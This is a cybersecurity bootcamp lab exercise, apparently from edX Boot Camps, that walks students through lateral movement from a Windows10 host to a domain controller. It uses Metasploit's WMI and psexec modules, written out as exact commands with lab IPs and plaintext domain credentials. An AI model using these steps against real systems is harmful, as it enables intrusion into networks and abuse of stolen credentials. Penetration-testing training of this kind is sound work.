 ## Activity File: Lateral Movement 

For this activity, you will use bbaner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

1. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- ![Screenshot depicts the module settings](../../../Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system](../../../Images/wmiexploit.PNG)		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows10 and WINDC01, instead of Kali to WINDC01. 

---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
